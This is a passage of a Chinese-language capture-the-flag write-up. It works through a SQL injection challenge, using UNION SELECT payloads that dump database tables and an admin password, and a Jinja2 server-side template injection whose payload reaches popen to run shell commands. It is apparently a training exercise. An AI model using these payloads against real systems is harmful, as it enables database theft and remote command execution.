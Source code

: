 * 發現網頁左上角剛好是第六個table的名稱 猜測可能是要到`ApexPredators`
* 試試看將我們所要的table:`ApexPredators`抓出來
* 接著繼續往下找ApexPredators的東西
```
pp' UNION SELECT group_concat(table_name),group_concat(table_name),group_concat(table_name),group_concat(table_name) from information_schema.tables where table_schema='ApexPredators' #
```
![image](https://hackmd.io/_uploads/BkoQ_-p5C.png)
* 發現有users
* 繼續往下找users的東西
```
pp' UNION SELECT group_concat(column_name),group_concat(column_name),group_concat(column_name),group_concat(column_name) from information_schema.columns where table_schema='ApexPredators' and table_name='users'#
```
![image](https://hackmd.io/_uploads/r1MidbaqC.png)
* 發現users底下有 id,isAdmin,password,username
* 印出id,isAdmin,password,username裡面的內容
```
pp' UNION SELECT id,username,password,isAdmin from ApexPredators.users#
```
![image](https://hackmd.io/_uploads/rkuIFZpc0.png)
* 發現只有`KubenBlisk`下面的值是1 ~~大膽假設是admin~~
帳號:KubenBlisk 密碼:BliskLeader#2024
登入後就得到flag
![image](https://hackmd.io/_uploads/rJFf5ba9A.png)


## 07 - Server-Side Template Injection

### STI01
參考資料:
* https://blog.1997sty.com/archives/5570
* https://ithelp.ithome.com.tw/articles/10244403

![image](https://hackmd.io/_uploads/S1h1AZ6qA.png)
裡面有:`.__class__.__bases__[0].__subclasses__()[138].__init__.__globals__['popen']('dir').read()`

* __class__抓到底下的str
* __base__抓到str上層的object
* __subclasses__() Object底下所有的東西，包含函式等[138]應該是popen object
* __init__ 初始化 object
* __globals__['popen'] 初始化object下的popen
('cat FLAG').read() popen執行cat FLAG並讀出來

* 將payload改為:
```
{{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('cat FLAG').read()}}
```
即可拿到flag
![image](https://hackmd.io/_uploads/r1PdRZacR.png)
> AIS3_Junior{.__JinjaTWOOOO.___["SSTI"]__.succ3ssXDD.__}
